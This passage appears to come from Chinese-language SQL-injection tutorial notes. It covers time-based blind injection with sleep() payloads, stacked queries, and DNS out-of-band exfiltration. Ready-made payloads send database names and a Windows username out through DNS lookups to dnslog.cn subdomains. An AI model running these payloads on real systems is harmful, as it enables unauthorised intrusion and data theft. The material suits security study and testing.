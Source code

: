 抓包改参数id为

```
1' and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9,sleep(4),1) #
```

明显延迟，说明数据库中的第一个表名长度为9个字符;

抓包改参数id为

```
1' and if((select count(column_name) from information_schema.columns where table_name=0x7573657273)=8,sleep(5),1) #
```

明显延迟，说明uers表有8个字段。

## 堆叠注入

堆叠注入就是将一堆sql语句叠加在一起执行，使用分号结束上一个语句再叠加其他语句一起执行

支持堆叠数据库类型：MYSQL MSSQL Postgresql等

```
';show databases;

';show tables;
```



## DNS利用

1.平台

http://www.dnslog.cn

http://admin.dnslog.link

http://ceye.io

2.应用场景：

解决不回显，反向连接，SQL注入，命令执行，SSRF等

SQL注入：

```
select load_file(concat('\\\\',(select database()),'.7logee.dnslog.cn\\aa'));

and (select load_file(concat('//',(select database()),'.69knl9.dnslog.cn/abc')))
```

命令执行：

```
ping %USERNAME%.7logee.dnslog.cn
```


